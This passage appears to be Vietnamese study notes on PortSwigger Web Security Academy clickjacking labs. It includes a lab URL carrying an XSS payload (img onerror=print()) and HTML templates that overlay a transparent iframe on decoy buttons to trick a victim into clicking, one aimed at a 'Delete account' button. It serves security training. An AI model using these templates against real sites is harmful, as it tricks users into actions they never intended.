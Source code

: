```html
<script>
if(top != self) {
    window.addEventListener("DOMContentLoaded", function() {
        document.body.innerHTML = 'This page cannot be framed';
    }, false);
}
</script>
```
- Ta sử dụng `sandbox="allow-forms"`
    - Mặc định nếu thêm `sandbox` mà không cần thêm thuộc tính gì thì nó sẽ block tất cả
    - Ở đây ta thêm `allow-forms` để cho phép **form** được hoạt động

### Lab: Exploiting clickjacking vulnerability to trigger DOM-based XSS
- Thử xung quanh ta thấy **XSS** xảy ra ở **payload name** chức năng **feedback**
- Ta sẽ thêm vào các **input** thông qua **url** 

```
https://0ae1005204976ded801b08ea005b0032.web-security-academy.net/feedback?name=%3Cimg%20src=1%20onerror=print()%3E&email=xnxx@gmail.com&subject=xnxx&message=xnxx
```
- Có thể tạo bằng **Clickbandit** hoặc sử dụng **template** sau thêm vào body của **exploit server**

```html
<style>
    iframe {
        position:relative;
        width:700px;
        height: 850px;
        opacity: 0.00001;
        z-index: 2;
    }
    div {
        position:absolute;
        top:790px;
        left:70px;
        z-index: 1;
    }
</style>
<div>Click me</div>
<iframe src="https://0ae1005204976ded801b08ea005b0032.web-security-academy.net/feedback?name=%3Cimg%20src=1%20onerror=print()%3E&email=xnxx@gmail.com&subject=xnxx&message=xnxx"></iframe>
```
- **Delive to victim**

### Lab: Multistep clickjacking
- Login bằng account **wiener**, ta thấy nút **Delete account**
- Sử dụng **template** sau thêm vào body của **exploit server**

```html
<style>
iframe {
    position: relative;
    width: 700px;
    height: 600px;
    opacity: 0.5;
    z-index: 2;
}

#click-first, #click-second {
    position: absolute;
    top: 496px;
    left: 56px;
    z-index: 1;
```